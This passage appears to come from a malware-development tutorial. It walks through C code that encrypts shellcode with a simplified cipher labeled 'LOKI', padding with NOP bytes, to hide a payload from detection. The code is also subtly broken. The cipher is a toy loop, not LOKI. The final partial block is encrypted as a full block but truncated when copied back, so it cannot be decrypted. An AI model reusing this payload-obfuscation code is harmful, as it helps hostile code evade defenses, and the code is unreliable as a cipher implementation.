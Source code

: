 ```cpp
void loki_decrypt(u8 *block, u8 *key) {
  // LOKI decryption (simplified for demo)
  u32 left = ((u32)block[0] << 24) | ((u32)block[1] << 16) | 
  ((u32)block[2] << 8) | (u32)block[3];
  u32 right = ((u32)block[4] << 24) | ((u32)block[5] << 16) | 
  ((u32)block[6] << 8) | (u32)block[7];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    u32 temp = left;
    left = right ^ (left + ((u32)key[round % KEY_SIZE]));
    right = temp;
  }

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

Then we need the `loki_encrypt_shellcode` function to encrypt a given shellcode using the LOKI block cipher:     

```cpp
void loki_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    loki_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
    remaining);
    loki_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
    remaining);
  }
}
```

How it works?    

Loop through shellcode in `8-byte` blocks:    

```cpp
for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
  loki_encrypt(shellcode + i * BLOCK_SIZE, key);
}
```

